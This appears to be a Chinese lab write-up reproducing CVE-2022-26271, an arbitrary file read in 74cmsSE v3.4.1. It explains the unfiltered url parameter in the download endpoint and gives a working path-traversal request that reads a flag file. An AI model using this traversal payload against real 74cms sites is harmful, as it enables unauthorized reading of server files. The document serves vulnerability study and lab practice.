 ```yaml
---
title: CVE-2022-26271【任意文件读取】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '任意文件读取'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-26271)

[【CVE-2022-26271】:74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading · GitHub](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)

## 2. 漏洞分析和复现

[【CVE-2022-26271】:74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading · GitHub](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061127116.png)

根据漏洞代码可知，对输入的 url 参数没做过滤和权限校验等安全操作，为此我们可以通过对 url 这个参数尝试读取flag，另外name参数是输出文件名【即本地保存的名字，操作下就明白了】，经测试下面url可读出flag

`http://eci-2zeguqesv3v8irc4r323.cloudeci1.ichunqiu.com/index/download/index?name=flag.txt&url=../../../../../../flag` 

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061130893.jpg)
